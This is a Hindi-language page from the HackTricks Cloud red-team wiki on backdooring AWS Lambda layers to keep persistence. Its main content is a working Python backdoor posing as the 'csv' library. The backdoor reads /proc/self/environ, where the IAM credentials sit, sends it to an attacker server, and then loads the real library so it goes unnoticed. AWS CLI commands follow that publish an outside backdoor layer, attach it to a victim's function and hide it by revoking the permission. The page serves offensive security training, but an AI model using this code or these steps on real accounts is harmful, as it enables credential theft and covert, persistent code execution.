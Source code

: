 # AWS - Lambda Layers Persistence

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## Lambda Layers

Lambda layer एक .zip फ़ाइल आर्काइव है जिसमें **अतिरिक्त कोड** या अन्य सामग्री हो सकती है। एक layer में लाइब्रेरीज़, [कस्टम रनटाइम](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), डेटा, या कॉन्फ़िगरेशन फ़ाइलें हो सकती हैं।

एक फ़ंक्शन में अधिकतम **पांच layers शामिल की जा सकती हैं**। जब आप एक फ़ंक्शन में layer शामिल करते हैं, तो **सामग्री `/opt`** डायरेक्टरी में निष्कर्षित की जाती है निष्पादन वातावरण में।

**डिफ़ॉल्ट रूप से**, आपके द्वारा बनाई गई **layers** आपके AWS खाते के लिए **निजी** होती हैं। आप अन्य खातों के साथ एक layer साझा करने का चयन कर सकते हैं या layer को **सार्वजनिक** बना सकते हैं। यदि आपके फ़ंक्शन्स एक अलग खाते द्वारा प्रकाशित layer का उपयोग करते हैं, तो आपके फ़ंक्शन्स उस layer संस्करण का उपयोग जारी रख सकते हैं यदि वह हटा दिया गया है, या उस layer तक पहुँचने की आपकी अनुमति निरस्त कर दी गई है। हालांकि, आप हटाए गए layer संस्करण का उपयोग करके नया फ़ंक्शन नहीं बना सकते हैं या फ़ंक्शन्स को अपडेट नहीं कर सकते हैं।

कंटेनर इमेज के रूप में तैनात किए गए फ़ंक्शन्स layers का उपयोग नहीं करते हैं। इसके बजाय, आप अपने पसंदीदा रनटाइम, लाइब्रेरीज़, और अन्य निर्भरताओं को कंटेनर इमेज में पैकेज करते हैं जब आप इमेज बनाते हैं।

### Python लोड पथ

Lambda में Python द्वारा उपयोग किया जाने वाला लोड पथ निम्नलिखित है:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
देखें कि **दूसरे** और तीसरे **स्थान** का उपयोग किस प्रकार से डायरेक्टरीज द्वारा किया जाता है जहां **लैम्ब्डा लेयर्स** अपनी फाइलों को अनकंप्रेस करते हैं: **`/opt/python/lib/python3.9/site-packages`** और **`/opt/python`**

{% hint style="danger" %}
यदि कोई हमलावर एक प्रयुक्त लैम्ब्डा **लेयर** में **बैकडोर** जोड़ने में सफल हो जाता है या एक ऐसा **लेयर** जोड़ता है जो **सामान्य लाइब्रेरी लोड होने पर मनमाना कोड निष्पादित करेगा**, तो वह प्रत्येक लैम्ब्डा आह्वान के साथ दुर्भावनापूर्ण कोड निष्पादित करने में सक्षम होगा।
{% endhint %}

इसलिए, आवश्यकताएं हैं:

* **लाइब्रेरीज की जांच करें** जो पीड़ित के कोड द्वारा **लोड की जाती हैं**
* एक **प्रॉक्सी लाइब्रेरी लैम्ब्डा लेयर्स के साथ बनाएं** जो **कस्टम कोड निष्पादित करेगी** और **मूल** लाइब्रेरी को **लोड करेगी**।

### पहले से लोड की गई लाइब्रेरीज

{% hint style="warning" %}
इस तकनीक का दुरुपयोग करते समय मुझे एक कठिनाई का सामना करना पड़ा: कुछ लाइब्रेरीज पहले से ही पायथन रनटाइम में लोड हो चुकी होती हैं जब आपका कोड निष्पादित होता है। मुझे `os` या `sys` जैसी चीजों की उम्मीद थी, लेकिन **`json` लाइब्रेरी भी लोड की गई थी**।\
इस स्थायित्व तकनीक का दुरुपयोग करने के लिए, कोड को एक नई लाइब्रेरी लोड करनी होगी जो कोड निष्पादित होने पर लोड नहीं होती है।
{% endhint %}

इस प्रकार के पायथन कोड के साथ यह संभव है कि लैम्ब्डा में पायथन रनटाइम के अंदर **पहले से लोड की गई लाइब्रेरीज की सूची प्राप्त की जा सके**:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
और यह है **सूची** (यह जांच लें कि `os` या `json` जैसी लाइब्रेरीज पहले से मौजूद हैं)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
### Lambda Layer में बैकडोरिंग

इस उदाहरण में मान लेते हैं कि लक्षित कोड **`csv`** इम्पोर्ट कर रहा है। हम **`csv` लाइब्रेरी के इम्पोर्ट में बैकडोरिंग करने जा रहे हैं**।

इसके लिए, हम **csv नामक डायरेक्टरी बनाएंगे** जिसमें **`__init__.py`** फाइल होगी, जो लैम्ब्डा द्वारा लोड किए गए पथ पर होगी: **`/opt/python/lib/python3.9/site-packages`**\
फिर, जब लैम्ब्डा निष्पादित होता है और **csv** लोड करने की कोशिश करता है, हमारी **`__init__.py` फाइल लोड और निष्पादित की जाएगी**।\
इस फाइल में निम्नलिखित कार्य करने चाहिए:

* हमारे पेलोड को निष्पादित करना
* मूल csv लाइब्रेरी को लोड करना

हम दोनों कार्य निम्नलिखित के साथ कर सकते हैं:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
फिर, इस कोड को **`python/lib/python3.9/site-packages/__init__.py`** पथ में ज़िप करें और इसे एक लैम्ब्डा लेयर के रूप में जोड़ें।

आप इस कोड को [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) पर पा सकते हैं।

एकीकृत पेलोड **पहली बार जब इसे आह्वान किया जाता है या लैम्ब्डा कंटेनर के रीसेट के बाद (कोड का परिवर्तन या ठंडा लैम्ब्डा) IAM क्रेडेंशियल्स को एक सर्वर पर भेजेगा**, लेकिन **अन्य तकनीकें** जैसे कि निम्नलिखित भी एकीकृत की जा सकती हैं:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### बाहरी लेयर्स

ध्यान दें कि **बाहरी खातों से लैम्ब्डा लेयर्स का उपयोग करना संभव है**। इसके अलावा, एक लैम्ब्डा एक बाहरी खाते से एक लेयर का उपयोग कर सकता है भले ही उसके पास अनुमतियां न हों।\
यह भी ध्यान दें कि **एक लैम्ब्डा के पास अधिकतम 5 लेयर्स हो सकते हैं**।

इसलिए, इस तकनीक की बहुमुखी प्रतिभा को बढ़ाने के लिए एक हमलावर कर सकता है:

* उपयोगकर्ता के मौजूदा लेयर में बैकडोर जोड़ें (कुछ भी बाहरी नहीं है)
* **अपने खाते में एक** **लेयर बनाएं**, **पीड़ित खाते को लेयर का उपयोग करने की अनुमति दें**, **लेयर को पीड़ित के लैम्ब्डा में कॉन्फ़िगर करें** और **अनुमति हटा दें**।
* **लैम्ब्डा** अभी भी **लेयर का उपयोग करने में सक्षम होगा** और **पीड़ित के पास लेयर्स कोड को डाउनलोड करने का कोई आसान तरीका नहीं होगा** (लैम्ब्डा के अंदर एक रिवर्स शेल प्राप्त करने के अलावा)
* पीड़ित **`aws lambda list-layers`** का उपयोग करके बाहरी लेयर्स को नहीं देख पाएगा

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
